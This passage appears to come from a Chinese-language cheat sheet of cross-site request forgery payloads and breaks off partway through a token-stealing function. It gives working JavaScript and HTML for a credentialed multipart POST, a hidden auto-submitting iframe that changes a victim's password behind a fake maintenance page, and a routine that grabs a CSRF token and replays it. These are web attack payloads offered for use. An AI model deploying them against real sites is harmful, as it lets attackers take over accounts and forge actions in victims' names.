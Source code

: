 ### multipart/form-data POST 请求 v2
```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```
### 从 iframe 内部发送表单 POST 请求
```html
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
### **窃取 CSRF 令牌并发送 POST 请求**
```javascript
function submitFormWithTokenJS(token) {
var xhr = new XMLHttpRequest();
xhr.open("POST", POST_URL, true);
xhr.withCredentials = true;

// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

// This is for debugging and can be removed
xhr.onreadystatechange = function() {
if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
//console.log(xhr.responseText);
}
}

xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
var xhr = new XMLHttpRequest();
// This tels it to return it as a HTML document
xhr.responseType = "document";
```